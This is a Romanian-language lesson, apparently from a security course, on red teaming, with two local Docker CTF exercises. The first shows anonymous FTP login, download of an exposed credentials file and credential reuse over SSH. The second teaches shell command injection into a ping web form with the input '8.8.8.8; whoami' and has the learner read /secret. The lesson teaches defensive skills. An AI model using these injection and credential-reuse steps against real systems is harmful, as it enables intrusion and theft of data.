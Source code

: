 ## Red Team

**Red Team** este acea echipa de specialisti care trebuie sa gandeasca asemeni unui atacator.
Echipa este fie interna companiei in care activeaza, fie externa si activeaza la cererea companiei ce cumpara serviciile lor.
Scopul lor este sa emuleze atacuri, sa documenteze tot procesul si apoi sa propuna modalitati de imbunatatire a securitatii.

Este o modalitate **legala** pentru specialisti sa isi puna in practica notiunile si sa ajute in acelasi timp la securizarea diferitelor entitati.

O parte din activitatile pe care **Red Team** le poate efectua sunt:

- Securitate fizica
  - Incearca sa intre in cladire, sa fure dispozitive, sa pacaleasca angajati
- Dumpster Diving
  - Cauta in gunoi documente sau postit-uri cu parole
- Social Engineering
  - Phishing
  - Email-uri malitioase
- OSINT
  - Inventarierea sistemelor companiei
  - Scanarea sistemelor companiei
  - Verificare daca emailurile companiei sunt compromise
- Exploatare activa a sistemelor
  - Utilizarea exploit-urilor publice
  - Inspectie manuala a serviciilor expuse

### Practice

Intrati in directorul `support/red-team/` si parcurgeti exercitiile de mai jos.

1. Accesati directorul `anonymous/remote/` si rulati comanda `make run`.
   Comanda va lansa in executie un container `Docker` aferent challenge-ului `anonymous`.
   
   Containerul expune doua porturi importante, si anume `10021` si `10022`.
   Portul `10021` expune serviciul `FTP` iar Portul `10022` expune serviciul `SSH`.
   Prima data vom interactiona cu serviciul `FTP`.

   Puteti interactiona cu serviciul `FTP` folosind comanda:
   
   ```
   $ ftp 0.0.0.0 10021
   ```
  
   Serverul are functionalitatea de `anonymous login` activata.
   Acest lucru este o practica gresita de aproape fiecare data si trebuie evitata.
   Se poate folosi doar in cazurile in care vrem sa expunem **in mod public** fisiere accesibile fara restrictii.
  
   Pentru mai multe detalii, accesati sectiunea `What is anonymous FTP` de la urmatorul link:
   
   - [How to Use Anonymous FTP](https://www.rfc-editor.org/rfc/rfc1635.html)
   
   Userul `anonymous` este un user limitat facut cu scopul de a oferi acces public unor anumite resurse.
   Informatia esentiala din resursa indicata este ca userul `anonymous` accepta orice parola.
   
   Drept urmare, putem folosi urmatoarea succesiune de actiuni in linie de comanda pentru a ne conecta la serverul ce ruleaza local:
   
   ```
   $ ftp 0.0.0.0 10021
   # introduceti manual: user: anonymous
   # introduceti manual: password: pass
   ```
   
   Rezultatul ar trebui sa fie:
   
   ```
   Connected to 0.0.0.0.
   220 (vsFTPd 3.0.3)
   Name (0.0.0.0:long): anonymous
   331 Please specify the password.
   Password: 
   230 Login successful.
   Remote system type is UNIX.
   Using binary mode to transfer files.
   ftp>
   ```
   
   Pentru a lista fisierele la care avem acces, folositi comanda `passive on` urmata de comanda `ls`.
   Rezultatul ar trebui sa fie:
   
   ```
   ftp> passive on
   Passive mode: on; fallback to active mode: off.
   ftp> ls
   229 Entering Extended Passive Mode (|||65455|)
   150 Here comes the directory listing.
   -rw-r--r--    1 0        0              27 Oct 31 14:21 credentials.txt
   226 Directory send OK.
   ftp>
   ```
   
   Observam ca serverul expune fisierul `credentials.txt`.
   Deseori programatorii uita ce fisiere lasa publice si se pot ajunge la situatii nedorite.
   
   Cum accesul la fisier este nerestrictionat, acesta poate fi downloadat folosind comanda `get credentials.txt`.
   Rezultatul ar trebui sa fie:
   
   ```
   ftp> get credentials.txt
   local: credentials.txt remote: credentials.txt
   229 Entering Extended Passive Mode (|||65437|)
   150 Opening BINARY mode data connection for credentials.txt (27 bytes).
   100% |******************************************************************************************************************************************|    27        0.42 KiB/s    00:00 ETA
   226 Transfer complete.
   27 bytes received in 00:00 (0.41 KiB/s) 
   ```
   
   Acum putem folosi comanda `exit` pentru a inchide conexiunea cu serverul `FTP`.
   Rezultatul ar trebui sa fie:
   
   ```
   ftp> exit
   221 Goodbye.
   ```

   Acum avem local fisierul `credentials.txt` al carui continut il putem expune cu urmatoarea comanda:
   
   ```
   $ cat credentials.txt
   ```
   
   Rezultatul ar trebui sa fie:
   
   ```
   $ cat credentials.txt
   ctf:anonymous-account-pass
   ```
  
   Cea mai des folosita sintaxa de precizare a credentialelor este de forma `username:parola`.
   Observam ca asta contine si fisierul nostru.
   
   Acum putem incerca sa folosim credentialele pentru a ne loga prin intermediul `SSH`.
   Vom face acest lucru cu userul `ctf` si parola `anonymous-account-pass`.
   Comanda folosita este:
   
   ```
   ssh ctf@0.0.0.0 -p 10022
   # introducem manual parola `anonymous-account-pass`
   # introducem manual `yes` pentru a continua conectarea atunci cand suntem intrebati
   ```
   
   Rezultatul ar trebui sa fie:
   
   ```
   $ ssh ctf@0.0.0.0 -p 10022
   The authenticity of host '[0.0.0.0]:10022 ([0.0.0.0]:10022)' can't be established.
   ED25519 key fingerprint is SHA256:r4/eDTkhYoYa8fgSaLMUsyQJAGsSaq+5rX2FGAB0CJc.
   This key is not known by any other names
   Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
   Warning: Permanently added '[0.0.0.0]:10022' (ED25519) to the list of known hosts.
   ctf@0.0.0.0's password: 
   Welcome to Ubuntu 20.04.5 LTS (GNU/Linux 5.15.0-52-generic x86_64)

    * Documentation:  https://help.ubuntu.com
    * Management:     https://landscape.canonical.com
    * Support:        https://ubuntu.com/advantage

   This system has been minimized by removing packages and content that are
   not required on a system that users do not log into.

   To restore this content, you can run the 'unminimize' command.

   The programs included with the Ubuntu system are free software;
   the exact distribution terms for each program are described in the
   individual files in /usr/share/doc/*/copyright.

   Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
   applicable law.


   The programs included with the Ubuntu system are free software;
   the exact distribution terms for each program are described in the
   individual files in /usr/share/doc/*/copyright.
   
   Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
   applicable law.

   ctf@03ca22e3acdb:~$
   ```
   
   Listati continutul fisierului `secret` disponibil la calea `/home/ctf/secret`.
   
   Odata ce aveti un input care functioneaza corespunzator, incercati acelasi input si la adresa TODO.
   
1. Accesati directorul `pingme/remote/` si rulati comanda `make run`.
   Comanda va lansa in executie un container `Docker` aferent challenge-ului `pingme`.
   O aplicatie web minimala este expusa pe portul `10002` al masinii locale.
   
   Observati ca aplicatia executa comanda `ping` catre o adresa IP data de utilizator.

   Putem presupune ca aplicatia executa intr-o linie de comanda pe server urmatoarea comanda:
   
   ```
   $ ping <input>
   ```

   Unde `<input>` este orice introduce utilizatorul in campul din pagina.
   In consecinta, un utilizator al aplicatiei **injecteaza comenzi** direct intr-o linie de comanda aflata pe un server la distanta.
   
   Cunoscand faptul ca operatorul `;` delimiteaza comenzi si permite rularea mai multor comenzi intr-o singura linie, putem folosi `8.8.8.8; whoami` ca si input.
   In acest fel, comenzile care s-ar executa pe server conform presupunerilor noastre sunt:
   
   ```
   $ ping 8.8.8.8; whoami
   ```
 
   Validati presupunerile anterioare contra aplicatiei expuse pe `0.0.0.0:10002`.
   
   Scopul este sa accesati fisierul `/secret` de pe server.
   Pentru a accesa acest fisier, folositi utilitarul `cat` si faptul ca aveti informatia ca fisierul cautat se afla sub calea `/secret`.
   
   Odata ce aveti un input care functioneaza corespunzator, incercati acelasi input si la adresa TODO.

### Quiz

[Quiz](../quiz/red-team.md)
